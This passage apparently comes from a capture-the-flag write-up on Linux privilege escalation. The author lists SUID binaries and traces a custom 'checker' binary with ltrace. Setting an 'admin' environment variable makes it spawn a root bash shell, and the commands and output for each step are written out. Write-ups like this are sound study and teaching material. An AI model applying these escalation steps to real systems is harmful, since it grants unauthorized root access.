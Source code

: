```
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su

...

```
Bingo! `/usr/sbin/checker` is HIGHLY suspicious

Gtfobins said nope...so we are doomed!

ok not really...it's a binary so we have to Reverse engineer this a bit

I will try locally and if tools are not available I will download it and ghidra the stuff out of it

```
checker
Not an Admin
```
Lol..that thing just prints that (I know I am not admin...yet)

I tried strings but its not available...funny how they got ltrace and strace instead

```
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```
`getenv` is what matters here! it checks the content of the `admin` global variable

So what happens when we modify that variable? I don't know...let's see

```
export admin=test    
ltrace checker
getenv("admin")                                  = "test"
setuid(0)                                        = -1
system("/bin/bash"
```
Oh we get a shell! logic!

And just like that...we are root!

```
checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
Now if the "flag" in bjoel folder is not real? where is the real flag?
